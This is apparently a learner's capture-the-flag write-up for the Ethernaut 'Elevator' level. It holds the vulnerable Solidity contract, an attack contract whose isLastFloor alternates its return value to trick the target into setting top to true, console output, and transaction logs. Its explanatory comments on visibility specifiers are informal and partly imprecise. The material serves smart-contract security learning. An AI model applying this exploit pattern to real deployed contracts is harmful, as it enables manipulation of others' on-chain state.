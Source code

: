 11. Elevator

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {//interface is object oriented language 
  function isLastFloor(uint) external returns (bool);//eternal is function visibility specifier /public, private, external, internal 
} //who can call specific function 
public -> anybody outside of the contract can call that function 
private -> can only be call from within the current contract its only visible thats denoted as private within the current contract can
external -> anybody outside of a contract can call this function that what we have denoted here this function 
//basically more it utilize resources more effectively when large array or data are passed into or as arguments to these function 
Internal -> that a function only visible private within a given function and within all contracts that inherent

/State modifier //promises how function with interact with "data on the ethereum blockchain" (State)
pure -> no state variable in contract would be read. you wanna be create a function that math operation you wanna put that any state. you would denote that function as pure.
view -> would allow to read state from blockchain but it would not allow you to modify it 



contract Elevator {
  bool public top; //getter //top is set "true" 
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender); //instanse of interface 

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract ElevatorAttack {
    bool public toggle = true;
    Elevator public target;

    constructor(address _targetAddress) public {
        target = Elevator(_targetAddress);
    }

    function isLastFloor(uint) public returns (bool) {
        toggle = !toggle; 
        //negate //when isLastFloor is first gonna get called, its gonna be negated to false
        return toggle;
    }//return false that means the negation of false is true, which means we'll pass this if clause right here
     //top variable is true, which means we will beat the level

     function setTop(uint _floor) public {
         target.goTo(_floor);
     }
}


>await contract.top()
false

>await contract.floor()
o {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: Array(2)
0: 0 //floor //going to return this promise here //the current floor is no floor 
length: 2
[[Prototype]]: Array(0)
[[Prototype]]: Object

//a visibility modifier or what is sometimes called a visibillity specifier 
//basically denotes who gets to invoke certain function 

>contract.address

'0x8fFa9c56792650D32E2fA82bca71D664AA26Bee0'


//deploy 

[block:10904894 txIndex:3]from: 0xF6e...f30F5to: ElevatorAttack.(constructor)value: 0 weidata: 0x608...57f5blogs: 0hash: 0x6e9...d61dc

//DeployedContract setTopに15階をsetting 

[block:10904912 txIndex:9]from: 0xF6e...f30F5to: ElevatorAttack.setTop(uint256) 0x1F1...5387cvalue: 0 weidata: 0x3f2...0000flogs: 0hash: 0x461...27f04


>await contract.top()
true

>await contract.floor()
o {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: Array(2)
0: 15
length: 2
[[Prototype]]: Array(0)
[[Prototype]]: Object


You can use the view function modifier on an interface in order to prevent state modifications.
 The pure modifier also prevents functions from modifying the state. 
 Make sure you read Soliditys documentation and learn its caveats.
 https://docs.soliditylang.org/en/develop/contracts.html#view-functions

An alternative way to solve this level is to build a view function which returns different results depends on input data but dont modify state, e.g. gasleft().












